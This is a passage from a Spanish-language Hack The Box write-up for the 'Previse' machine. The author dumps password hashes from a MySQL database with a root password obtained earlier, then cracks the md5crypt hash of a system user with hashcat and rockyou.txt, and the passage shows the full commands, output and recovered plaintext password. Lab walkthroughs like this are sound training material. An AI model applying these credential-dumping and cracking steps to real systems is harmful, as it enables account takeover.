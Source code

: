 ![Accedo a la máquina como "www-data"](/assets/img/HTB/Previse/access.png)

Tras acceder, consulto la base de datos "previse" utilizando las credenciales que había obtenido anteriormente. En ella, encuentro 2 tablas: "accounts" y "files". En la tabla "accounts" encuentro las contraseñas hasheadas de mi usuario y de "m4lwhere", siendo este último un usuario del sistema operativo también.

```
www-data@previse:/var/www/html$ mysql -u root -pmySQL_p@ssw0rd\!:\) -D previse -e "SHOW TABLES;"

+-------------------+
| Tables_in_previse |
+-------------------+
| accounts          |
| files             |
+-------------------+
www-data@previse:/var/www/html$ mysql -u root -pmySQL_p@ssw0rd\!:\) -D previse -e "SELECT * FROM accounts"
mysql: [Warning] Using a password on the command line interface can be insecure.
+----+----------+------------------------------------+---------------------+
| id | username | password                           | created_at          |
+----+----------+------------------------------------+---------------------+
|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | j0lm3d0  | $1$🧂llol$9V3HE09GdFQiHRXIQrRgQ0 | 2021-10-12 14:18:14 |
+----+----------+------------------------------------+---------------------+
```

Gracias a `HashCat`, logro crackear el hash MD5, obteniendo así la contraseña en texto claro.

```
# hashcat -a 0 -m 500 hash rockyou.txt

$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!

Session..........: hashcat
Status...........: Cracked
Hash.Name........: md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
Hash.Target......: $1$🧂llol$DQpmdvnb7EeuO6UaqRItf.
Time.Started.....: Tue Oct 12 11:12:19 2021 (8 mins, 16 secs)
Time.Estimated...: Tue Oct 12 11:20:35 2021 (0 secs)
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    15212 H/s (7.56ms) @ Accel:32 Loops:1000 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 7413376/14344385 (51.68%)
Rejected.........: 0/7413376 (0.00%)
Restore.Point....: 7413248/14344385 (51.68%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1000
Candidates.#1....: ilovecody98 -> ilovecloandlivey
```
